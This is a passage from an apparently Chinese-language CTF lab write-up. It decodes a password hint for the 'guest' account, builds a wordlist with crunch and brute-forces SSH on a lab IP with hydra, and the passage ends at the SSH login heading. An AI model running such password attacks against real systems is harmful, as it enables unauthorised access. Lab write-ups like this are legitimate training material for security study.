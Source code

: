 尝试解码

![image-20230526151149305](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230526151149305.png)

翻译：你可以以guest的身份进入matrix，密码为k1ll0rxx。注:实际上，我忘记了最后两个字符，所以我用XX代替了，试试你的运气，找到正确的密码字符串。

## 漏洞挖掘与利用

### 生成密码字典

```
crunch 8 8 -t k1ll0r%@ -o dict.txt // crunch 8(最小长度) 8(最大长度) -t(@:小写字母，%:数字) -o(输出) 字典名字
```

###  暴力破解

```
hydra -l guest -P dict.txt 192.168.128.138 ssh
```

![image-20230526154754368](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230526154754368.png) 

### SSH登录
